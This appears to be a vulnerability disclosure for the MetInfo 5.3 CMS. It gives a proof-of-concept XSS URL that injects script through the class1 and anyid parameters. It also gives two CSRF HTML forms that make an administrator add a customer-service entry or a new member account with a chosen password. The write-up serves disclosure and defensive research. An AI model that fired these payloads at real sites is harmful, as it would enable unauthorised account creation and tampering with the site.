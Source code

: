 # XSS

MetInfo5.3 application is vulnerable to Cross-Site scripting (XSS) vulnerabilities. Attackers can inject arbitrary web script or HTML via the class1 parameter or the anyid parameter to admin/index.php.

Vulnerability parameter：&class1、&anyid

Poc:
```
http://127.0.0.1/MetInfo5.3/admin/index.php?n=content&c=article_admin&a=doindex&class1=2"><script>alert(111)</script>&lang=cn&anyid=29"><script>alert(111)<%2fscript>
```
![](http://i.imgur.com/8IWwsyG.png)

#CSRF-1

MetInfo5.3 application is vulnerable to Cross-Site Request Forgery (CSRF) vulnerability. A successful CSRF attack can force the administrator to add an malicious online customer service.

Poc：
```
<html>
  <body>
    <form action="http://127.0.0.1/MetInfo5.3/admin/interface/online/delete.php?anyid=71&lang=cn&class1=" method="POST">
      <input type="hidden" name="allid" value="6&#44;" />
      <input type="hidden" name="action" value="editor" />
      <input type="hidden" name="id" value="6" />
      <input type="hidden" name="no&#95;order&#95;6" value="1" />
      <input type="hidden" name="name&#95;6" value="mm" />
      <input type="hidden" name="qq&#95;6" value="123123" />
      <input type="hidden" name="msn&#95;6" value="" />
      <input type="hidden" name="taobao&#95;6" value="mm123" />
      <input type="hidden" name="alibaba&#95;6" value="mm123" />
      <input type="hidden" name="skype&#95;6" value="" />
      <input type="hidden" name="saveorder" value="ä&#191;&#157;å&#173;&#152;" />
      <input type="hidden" name="action&#95;type" value="del" />
      <input type="hidden" name="allid" value="6&#44;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Before the attack：
![](http://i.imgur.com/l1hG2ta.png)
After the attack:
![](http://i.imgur.com/744zMBp.png)
Display on the home page:
![](http://i.imgur.com/bbW2wG1.png)

#CSRF-2

MetInfo5.3 application is vulnerable to Cross-Site Request Forgery (CSRF) vulnerability. A successful CSRF attack can force the administrator to add a member with specialized username and password.

Poc:
```
<html>
  <body>
    <form action="http://127.0.0.1/MetInfo5.3/admin/index.php?lang=cn&anyid=73&n=user&c=admin_user&a=doaddsave" method="POST">
      <input type="hidden" name="username" value="www" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="valid" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Before the attack:
![](http://i.imgur.com/xT1KItW.png)
After the attack:
![](http://i.imgur.com/XzQebmO.png)


